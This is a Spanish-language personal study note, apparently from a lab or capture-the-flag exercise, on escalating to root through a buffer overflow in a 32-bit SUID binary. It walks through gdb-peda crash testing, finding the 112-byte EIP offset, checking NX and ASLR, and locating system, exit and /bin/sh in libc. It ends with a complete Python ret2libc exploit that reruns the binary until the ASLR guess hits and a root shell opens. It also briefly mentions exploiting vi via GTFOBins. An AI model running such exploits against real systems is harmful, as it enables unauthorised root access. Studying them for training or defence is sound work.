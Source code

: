 SE EXPLOTO VI (EDITOR DE TEXTO) CON AYUDA DE GTFOBINS 

PEDA PARA REALIZAR BUFFER OVERFLOW

APT INSTALL GBD

Hay programas que el desarrollador le asigna un limite de tamaño de buffer por ejemplo (30 bytes)
Si confia que el usuario va a meter el tamaño de buffer de menos de 30 bytes o caracteres
			ejecutamos con gdb /usr/bin/custom -q
			gbd-peda$  r A
			ingresamos luego:
				r AAAAAAAAAAA
		Ahora probaremos ingresando:
			r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			como podemos observar se desbordo el buffer y aparece el siguiente comando
			
![[Pasted image 20250424120207.png]]

Nos enfocaremos en el EIP (Instruction pointer) esa direccion corresponde a la siguiente instruccion que tiene que ejecutar el programa
EIP hace que el flujo del programa funcione correctamente

Cuando introduces mayor tamaño de buffer a lo que esta configurado el sistema, se logra sobre-escribir ciertos registros del sistema
Ocacionando un riesgo total

Vemos que dice EIP: 0x41414141 ('AAAA') podemos probar metiendo otra cosa como 
gdb-peda$   r BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Podemos observar que cambia el EIP:
![[Pasted image 20250424120731.png]]
Si logramos controlar el flujo del programa para que apunte a una seccion y ejecute un comando que carguemos lo que se lograra es que el comando correra como root al ser binario suid

Como podemos  hacer que ponga la direccion que queramos:
Lo primero que debemos hacer es saber cuantas AAAA debemos de injectar hasta llegar a sobrescribir el registro EIP
Utilidad peda
			pattern create 300 (te genera 300 bytes) para que nos de una cadena y la injectemos
			
		
Asi:
		![[Pasted image 20250424121639.png]]
	Ahora vemos el EIP cambio a AA8A


Ahora filtremos AA8A en la cadena de 300 bytes que se genero
![[Pasted image 20250424122203.png]]
Tenemos que contar caracter por caracter hasta llegar AA8A

Para eso usamos 
gp-peda$ pattern offset $eip
			salida: found offset 112

Nos creamos una linea con python que nos genere 112 A
python3 -c 'print("A"*112)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

![[Pasted image 20250424122558.png]]
Ejecutamos y vemos que nos dio las 4 que extras que agregamos
![[Pasted image 20250424122629.png]]
Probamos con C y vemos que tambien se injecta eso significa que podemos controlar el EIP

Ahora debemos saber a donde apuntar
primero revisamos las protecciones que tiene el binario
![[Pasted image 20250424122840.png]]
Vemos que dice ENABLED (Esto impide apuntar a la pila o stack donde puedes intentar cargar caracteres para ejecutar caracteres)
NX -> NON EXECUTION

Veremos si ASLR esta habilitado (aleatorizacion de las secciones de la memoria)
ldd /usr/bin/custom
![[Pasted image 20250424125320.png]]
Como podemos observar en la imagen es que si hay aleatoriedad en la seccion de la memoria por lo que complica al atacante aplicar una llamada a nive de sistema que te ayuda a convertirte en root SOLO QUE AL SER DE 32 BIT Y SER TAN PEQUEÑA LA CADENA ES POSIBLE QUE SE REPITA VARIAS VECES:
![[Pasted image 20250424125604.png]]
Eso hace que si nos ejecutamos un programa multiples veces hacemos que se repita

instalamos `binutils`

Ejecutamos readelf empleando el siguiente comando para listar las direcciones y nos copiamos el output
![[Pasted image 20250424131054.png]]
Nos interesa la parte de system , exit y /bin/sh
Ya tenemos la direccion de exit y sistem ahora para conseguir la direccion de /bin/sh
Podemos jugar con strings --help
	strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
			 15bb2b /bin/sh

Crearemos un script en python:



 `#!/usr/bin/bash`

`import subprocess`
`from struct import pack`
`import sys`

`offset = 112`
`before_eip = b"A"*112`

``# `ret2libc -> system + exit + /bin/sh`

`base_libc_addr = 0xb7595000`

`#ken@2806-104e-0026-d6ca-020c-29ff-fed7-5765:/tmp$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "system| exit"`
   `#141: 0002e9e0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0`
``# `1457: 0003adb0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0`

``# `15bb2b /bin/sh`
``# `"<L" Es little endian`
`exit_addr_off = 0x0002e9e0`
`system_addr_off = 0x0003adb0`
`bin_sh_addr_off = 0x0015bb2b`

`system_addr = pack("<L", base_libc_addr + system_addr_off)` 
`exit_addr = pack("<L", base_libc_addr  + exit_addr_off)` 
`bin_sh_addr = pack("<L", base_libc_addr  + bin_sh_addr_off)`



`payload = before_eip + system_addr + exit_addr + bin_sh_addr`

``# `El programa se ejecutara multiples veces debido a que libc vale muchas direcciones`

`while True:`

        `result = subprocess.run(["sudo", "/usr/bin/custom", payload])`
        `if result.returncode == 0:`
                `print("\n\n[+] Se ha salido correctamente del programa\n")`
                `sys.exit(0)`


